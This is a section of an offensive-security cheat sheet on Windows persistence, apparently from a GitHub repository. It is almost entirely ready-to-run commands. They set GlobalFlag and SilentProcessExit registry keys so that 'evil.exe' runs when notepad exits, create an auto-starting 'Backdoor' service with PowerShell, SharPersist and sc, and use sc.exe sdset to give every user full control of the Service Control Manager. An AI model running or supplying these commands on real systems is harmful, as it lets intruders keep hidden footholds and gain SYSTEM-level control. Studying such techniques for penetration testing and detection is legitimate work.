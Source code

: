 #### GlobalFlag

> Run executable after notepad is killed

```powershell
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

### Startup Elevated

Create a batch script in the user startup folder.

```powershell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp 
```

### Services Elevated

Create a service that will start automatically or on-demand.

```powershell
# Powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic
sc start Backdoor

# SharPersist
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add

# sc
sc create Backdoor binpath= "cmd.exe /k C:\temp\backdoor.exe" start="auto" obj="LocalSystem"
sc start Backdoor
```

### ServiceSecurityDescriptor

Allow any arbitrary non-administrative user to have full SYSTEM permissions on a machine persistently by feeding an overly permissive ACL to the service control manager with sdset.

**Exploit**:

```ps1
sc.exe sdset <ServiceName> <ServiceSecurityDescriptor>
```

The following command grants full control (`Key Access`) over the Service Control Manager to all users (represented by `WD`, which stands for "World"). In other words, it allows any user to start, stop, modify, or control services through the Service Control Manager, which can be a security risk as it opens service management to everyone on the system.

```ps1
sc.exe sdset scmanager D:(A;;KA;;;WD)
```
